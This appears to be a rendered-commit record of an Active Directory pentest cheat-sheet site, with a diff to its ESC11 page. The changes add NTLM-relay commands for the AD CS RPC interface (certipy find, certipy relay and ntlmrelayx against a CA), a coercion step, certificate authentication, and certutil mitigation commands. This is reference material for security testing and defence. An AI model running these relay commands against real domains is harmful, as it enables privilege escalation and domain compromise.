

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/ad-adcs-esc11.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

````diff
--- a/docs/active-directory/ad-adcs-esc11.md
+++ b/docs/active-directory/ad-adcs-esc11.md
@@ -4,22 +4,50 @@
 
 > Encryption is not enforced for ICPR requests and Request Disposition is set to Issue.
 
-**Requirements**:
+**Tools**:
 
+* [ly4k/Certipy](https://github.com/ly4k/Certipy) - Certipy official
 * [sploutchy/Certipy](https://github.com/sploutchy/Certipy) - Certipy fork
 * [sploutchy/impacket](https://github.com/sploutchy/impacket) - Impacket fork
 
 **Exploitation**:
 
-1. Look for `Enforce Encryption for Requests: Disabled` in `certipy find -u user@dc1.lab.local -p 'REDACTED' -dc-ip 10.10.10.10 -stdout` output
+1. Look for `Enforce Encryption for Requests: Disabled` in certipy output.
+
+    ```ps1
+    certipy find -u user@dc1.lab.local -p 'REDACTED' -dc-ip 10.10.10.10 -stdout
+    Enforce Encryption for Requests : Disabled
+    ESC11: Encryption is not enforced for ICPR (RPC) requests.
+    ```
+
 2. Setup a relay using Impacket ntlmrelay and trigger a connection to it.
 
     ```ps1
+    certipy relay -target rpc://dc.domain.local -ca 'DOMAIN-CA' -template DomainController
+    # or
     ntlmrelayx.py -t rpc://10.10.10.10 -rpc-mode ICPR -icpr-ca-name lab-DC-CA -smb2support
-    certipy relay -target rpc://dc.domain.local -ca 'DOMAIN-CA' -template DomainController
     ```
+
+3. Coerce authentication fomr a privileged account such as a Domain Controller.
+4. Use the certificate
+
+    ```ps1
+    certipy auth -pfx dc.pfx
+    ```
+
+**Mitigations**:
+
+Enforce **RPC Encryption** (Packet Privacy).
+
+```powershell
+certutil -getreg CA\InterfaceFlags
+certutil -setreg CA\InterfaceFlags +IF_ENFORCEENCRYPTICERTREQUEST
+net stop certsvc
+net start certsvc
+```
 
 ## References
 
+* [ESC11: NTLM Relay to AD CS RPC Interface - Oliver Lyak - May 15, 2025](https://github.com/ly4k/Certipy/wiki/06-‐-Privilege-Escalation#esc11-ntlm-relay-to-ad-cs-rpc-interface)
 * [GOAD - part 14 - ADCS 5/7/9/10/11/13/14/15 - Mayfly - March 10, 2025](https://mayfly277.github.io/posts/ADCS-part14/)
 * [Relaying to AD Certificate Services over RPC - SYLVAIN HEINIGER - November 16, 2022](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)
````
Also changed, not shown: docs/active-directory/ad-adcs-certificate-services.md (+20 -12 lines), docs/active-directory/pwd-shadow-credentials.md (+54 -13 lines).
